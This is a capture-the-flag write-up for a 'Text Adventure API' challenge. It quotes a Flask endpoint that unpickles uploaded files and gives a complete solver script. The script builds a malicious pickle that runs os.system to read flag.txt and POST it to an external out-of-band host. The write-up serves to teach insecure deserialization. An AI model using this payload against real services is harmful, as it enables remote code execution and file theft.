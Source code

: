 # Text Adventure API

## Solution

There is Insecure Deserialization in `/api/load` path:

```python
@app.route('/api/load', methods=['POST'])
def load_session():
    if 'file' not in request.files:
        return jsonify({"message": "No file part"})
    file = request.files['file']
    if file and file.filename.endswith('.pkl'):
        try:
            loaded_session = pickle.load(file)
            session.update(loaded_session)
```

solver.py

```python
import pickle
import os
import requests

s = requests.Session()

BASE_URL = "http://127.0.0.1:5000"
# s.proxies = {"http": "http://127.0.0.1:8080"}


class RCE:
    def __reduce__(self):
        code = "python3 -c \"import http.client; c= http.client.HTTPConnection('cmrbba52vtc000099bx0gkcfiiyyyyyyb.oast.fun'); c.request('POST', '/', open('flag.txt', 'r').read())\""
        return os.system, (code,)


def gen_pickled() -> bytes:
    pickled = pickle.dumps(RCE())

    return pickled


def main():
    pickled = gen_pickled()
    s.post(f"{BASE_URL}/api/load", files={"file": ("exploit.pkl", pickled)})


if __name__ == "__main__":
    main()
```

## References

- [Deserialization - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle)
